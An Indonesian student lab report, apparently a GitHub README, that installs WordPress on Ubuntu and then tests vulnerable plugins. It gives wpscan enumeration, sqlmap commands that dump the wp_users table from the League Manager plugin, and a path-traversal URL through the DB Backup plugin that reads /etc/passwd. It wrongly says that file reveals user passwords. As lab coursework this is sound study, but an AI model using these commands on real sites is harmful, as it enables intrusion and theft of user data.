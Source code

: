 # Laporan Tugas 2 PKSJ
## Pendahuluan
Laporan ini dibuat sebagai tugas 2 dari mata kuliah Peracangan Keamanan dan Sekuritas Jaringan. Pada laporan ini terdapat penjelasan-penjelasan dan hasil percobaan SQL Injection yang kami lakukan. 
Laporan ini disusun oleh :
Setiyo Adiwicaksono		:5113100020
Fajar Ade Putra			:5113100092
Anwar Rosyidi			:5113100180

## Dasar Teori
### OS yan digunakan
1.  Ubuntu Server 14.04 : Ubuntu server adalah ubuntu yang didesain untuk di install di server. Perbedaan mendasar, di Ubuntu Server tidak tersedia GUI. Jika anda menggunakan ubuntu server artinya anda harus bekerja dengan perintah perintah di layar hitam ayng sering disebut konsole. Jika anda datang dari windows, maka tampilan ubuntu server seperti DOS.
2.   Kali Linux adalah generasi baru dari BackTrack Linux, pemimpin industri Penetration Testing dan audit keamanan distribusi Linux. Kali Linux merupakan pembangunan kembali dari BackTrack Linux dari dasar dan mengikuti sepenuhnya standar pengembangan Debian.

### Tools yang digunakan
1. SSH Server :SSH adalah akronim dari Secure Shell yang merupakan sebuah protokol jaringan yang memanfaatkan kriptografi untuk melakukan komunikasi data pada perangkat jaringan agar lebih aman. Dalam konsepnya penggunaan SSH ini harus di dukung oleh server maupun perangkat atau komputer klien yang melakukan pertukaran data. Keduanya harus memiliki SSH server dari sisi komputer server dan SSH klien untuk komputer penerima (klien).
2. Tolong ditambahkan

## Uji coba
## Instalasi Wordpress
1. Pertama, lakukan koneksi ssh dengan server
```
ssh server@192.168.56
```
2. Lakukan instalasi apache server
```
sudo apt-get install apache2
```
![GitHub Logo](PKSJ2/apache.JPG)

3. Install database mysql
```
sudo apt-get install mysql-server php5-mysql
```
```
sudo mysql_install_db
```
```
sudo mysql_secure_installation
```
4. Install PHP
```
sudo apt-get install php5 libapache2-mod-php5 php5-mcrypt
```
untuk mengetahui apabila php sudah terinstall silahkan buat file php di var/www/html/ 
![GitHub Logo](PKSJ2/php.JPG)

5. Buat database untuk wordpress
- log in ke dalam mysql root
```
mysql -u root -p
```
-  Buat database wordpress
```
CREATE DATABASE wordpress;
```
- buat user untuk akses database
```
CREATE USER wordpressuser@localhost IDENTIFIED BY 'password';
```
- Berikan privileges akses kepada akun db yang kita buat
```
GRANT ALL PRIVILEGES ON wordpress.* TO wordpressuser@localhost;
```
```
FLUSH PRIVILEGES;
exit
```
## Download wordpress
1. Lakukan download wordpress dengan memasukan syntax
```
cd ~
wget http://wordpress.org/latest.tar.gz
```
![GitHub Logo](PKSJ2/dwwp.JPG)
2. Kemudian extract hasil download
```
tar xzvf latest.tar.gz
```
3. Install package yang diperlukan 
```
sudo apt-get update
sudo apt-get install php5-gd libssh2-php
```
## Konfigurasi wordpress
1. Buka directory wordpress
```
cd ~/wordpress
```
2. Membuat backup file config wordpress
```
cp wp-config-sample.php wp-config.php
```
3. buka wpconfig untuk melakukan konfigurasi database
```
nano wp-config.php
```
![GitHub Logo](PKSJ2/setingwp.JPG)

4. copy file yang ada pada directory wordpress ke document root
```
sudo rsync -avP ~/wordpress/ /var/www/html/
```
5. buka document root dan rubah ownership file wordpress
```
cd /var/www/html
sudo chown -R demo:www-data *
```
6. kemudian kita buat folder uploads pada document root dan rubah ownershipnya
```
mkdir /var/www/html/wp-content/uploads
sudo chown -R :www-data /var/www/html/wp-content/uploads
```
7. Selanjutnya lakukan konfigurasi dengan membuka halaman wordpress yang telah kita install
![GitHub Logo](PKSJ2/setwp.JPG)
![GitHub Logo](PKSJ2/setsuk.JPG)
8. Proses instalasi selesai dan kita bisa membuka halaman wp-admin
![GitHub Logo](PKSJ2/wpadmin.JPG)
### Hasil halaman wordpress yang berhasil diinstall
![GitHub Logo](PKSJ2/sip.JPG)

## Instalasi Plugin Wordpress
1. Silahkan buka bagian **wp-admin** dan silahkan buka bagian menu plugin. Lalu silahkan tekan tombol bagian **Add New**
![GitHub Logo](PKSJ2/plugin.JPG)

2. Silahkan tekan tombol upload plugin untuk mengupload plugin yang kita download secara external, ataupun langusng di search pada kolom serch plugin. Setelah muncul tombolo browse, silahkan pilih plugin mana yang ingin di install, dan silahkan langsung di install
![GitHub Logo](PKSJ2/plugin1.JPG)

## Exploit Wordpress Menggunakan Tools SQLMAP dan WPSCAN
### Exploit Wordpress menggunakan WPscan
Fungsi penggunaan wpscan dalam exploit kali ini adalah untuk mendeteksi celah keamanan dari sebuah web berbasis wordpress. Penggunaan wpscan adalah jalankan kode dibawah dengan terminal.
```
wpscan --url http://[url yang dituju] -enumerate
```
Maka akan muncul tanda yang menunjukan celah keamanan dari plugin yang sudah di install pada wordpress
![GitHub Logo](PKSJ2/wpscan.JPG)

###Exploit dan Inject Sql menggunakan Sqlmap pada plugin league manager
1. Silahkan jalankan perintah dibawah ini untuk mengetahui bagaimana struktur tabel dari wordpress yang ada
```
sqlmap --url "http://[alamat yang dituju]/?match=1" --tables
```
![GitHub Logo](PKSJ2/sqlmaplm1.JPG)

2. Ketika kita ingin mengetahui bagaimana isi dari tabel yang kita inginkan, silahkan jalankan script dibawah ini
```
sqlmap --url "http://[alamat yang dituju]/?match=1" --dump -D [database yang diinginkan] -T [tabel yang diinginkan]
```
![GitHub Logo](PKSJ2/sqlmaplm2.JPG)

3. Pada case ini, kita akan mencoba membuka dan melihat tabel wp_users, makan masukkan perintah
```
sqlmap --url "http://10.151.36.128/?match=1" --dump -D wordpress -T wp_users
```
![GitHub Logo](PKSJ2/sqlmaplm3.JPG)
Bisa dilihat bahwa kita mendapatkan isi dari tabel wp_user, akan tetapi pada bagian password, hanya terlihat hasil enkripsinya karena di hash dictionary dari aplikasi sqlmap, tidak ada yang cocok dengan password user tersebut

###Mencari Celah Keamanan pada plugin DB Backup
1. Silahkan install plugin db Backup, dan silahkan masukkan url berikut pada browser anda untuk membuktikan celah keamanan db backup
```
[localhost]/wp-content/plugins/db-backup/download.php?file=/etc/passwd
```
2. Maka bisa dilihat bahwa kita bisa mendownload isi dari /etc/passwd dan mendapatkan password dari user yang ada pada server tersebut
![GitHub Logo](PKSJ2/jebol1.JPG)
Mendownload file passwd.passwd
![GitHub Logo](PKSJ2/jebol2.JPG)
Isi dari file passwd.passwd

##Kesimpulan

Dari hasil uji coba penetrasi SQL Injection didapatkan bahwa masih terdapat celah-celah yang dapat ditembus, kita dapat melakukan SQL Injection melalui celah yang terdapat pada plugin yang belum update walaupun wordpress sudah paling update terbaru.

##Saran

Periksalah update-update pada wordpress dan pluginya secara berkala, jika terdapat update pada wordpress dan plugin-plugin yang terinstall, segeralah untuk melakukan update karena celah-celah SQL Injection bisa terdapat pada plugin yang belum update tersebut.
